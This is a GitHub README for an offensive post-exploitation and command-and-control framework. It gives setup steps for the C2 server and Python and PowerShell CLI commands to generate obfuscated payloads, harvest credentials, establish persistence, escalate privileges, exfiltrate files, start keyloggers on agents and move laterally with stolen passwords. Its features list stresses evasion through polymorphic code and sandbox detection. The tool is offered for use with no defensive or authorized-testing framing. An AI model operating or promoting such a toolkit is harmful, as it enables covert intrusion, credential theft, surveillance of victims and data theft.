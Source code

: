 # Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

## Features

- **Enhanced Evasion Techniques**: Polymorphic code, sandbox detection, time-based evasion.
- **Advanced Post-Exploitation Modules**: Credential harvesting, persistence, privilege escalation, reconnaissance, data exfiltration, keylogging, lateral movement.
- **Secure Communication**: Encrypted communication between agent and C2 server.
- **Modular Design**: Easily add new modules and functionalities.
- **Cross-Platform Support**: CLI available in both Python (`cli.py`) and PowerShell (`cli.ps1`).
- **Logging and Reporting**: Detailed logging and report generation.

---

## Usage

### Setting Up the C2 Server

1. **Create a Python virtual environment and activate it**:
    ```bash
    python -m venv venv
    source venv/bin/activate  # On Windows: venv\Scripts\activate
    ```

2. **Install the required dependencies**:
    ```bash
    pip install -r c2_server/requirements.txt
    ```

3. **Run the C2 server**:
    ```bash
    python c2_server/c2_server.py
    ```

---

## Using the CLI

The CLI provides various commands to interact with the framework.

### Python CLI (`cli.py`)

#### List all registered agents:
```bash
python cli/cli.py list-agents
```

#### Send a command to a specific agent:
```bash
python cli/cli.py send-command --agent_id AGENT_ID --command "Your command here"
```

#### Generate an obfuscated payload for a specific platform:
```bash
python cli/cli.py generate-payload --platform PLATFORM
```

#### Harvest credentials:
```bash
python cli/cli.py harvest-credentials
```

#### Establish persistence:
```bash
python cli/cli.py establish-persistence
```

#### Escalate privileges:
```bash
python cli/cli.py escalate-privileges
```

#### Gather system information:
```bash
python cli/cli.py gather-system-info --agent_id AGENT_ID
```

#### Exfiltrate data:
```bash
python cli/cli.py exfiltrate-data --file_path /path/to/file
```

#### Start keylogger:
```bash
python cli/cli.py start-keylogger --agent_id AGENT_ID
```

#### Move laterally:
```bash
python cli/cli.py move-laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD
```

---

### PowerShell CLI (`cli.ps1`)

For Windows systems, `cli.ps1` provides the same functionality as `cli.py`. Run the following commands in a PowerShell terminal:

#### List all registered agents:
```powershell
.\cli\cli.ps1 list-agents
```

#### Send a command to a specific agent:
```powershell
.\cli\cli.ps1 send-command -agent_id AGENT_ID -command "Your command here"
```

#### Generate an obfuscated payload for a specific platform:
```powershell
.\cli\cli.ps1 generate-payload -platform PLATFORM
```

#### Harvest credentials:
```powershell
.\cli\cli.ps1 harvest-credentials
```

#### Establish persistence:
```powershell
.\cli\cli.ps1 establish-persistence
```

#### Escalate privileges:
```powershell
.\cli\cli.ps1 escalate-privileges
```

#### Gather system information:
```powershell
.\cli\cli.ps1 gather-system-info -agent_id AGENT_ID
```

#### Exfiltrate data:
```powershell
.\cli\cli.ps1 exfiltrate-data -file_path "C:\path\to\file"
```

#### Start keylogger:
```powershell
.\cli\cli.ps1 start-keylogger -agent_id AGENT_ID
```

#### Move laterally:
```powershell
.\cli\cli.ps1 move-laterally -target_ip TARGET_IP -username USERNAME -password PASSWORD
```

---

## Logging and Reporting

Logs are stored in the `c2_server.log` file located in the `c2_server` directory. This file contains detailed information about agent activities and commands executed.

To generate a report from the logged data:

### Using Python:
```bash
python c2_server/c2_server.py generate-report
```

### Using PowerShell:
```powershell
.\cli\cli.ps1 generate-report
```

This will create a `report.txt` file containing the logs. The report provides a comprehensive view of all interactions and events logged by the C2 server.

---

## Adding New Modules

To add new post-exploitation modules:

- **Python:** Create a new Python file in the `c2_server/modules` directory and implement the desired functionality.
- **PowerShell:** Add a corresponding PowerShell script in `cli/modules/windows/` if needed.
- Update the CLI scripts (`cli.py` and `cli.ps1`) to include commands for the new module.

---

## Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.

---

## License

This project is licensed under the MIT License.

---

# By the way, we pwn things...
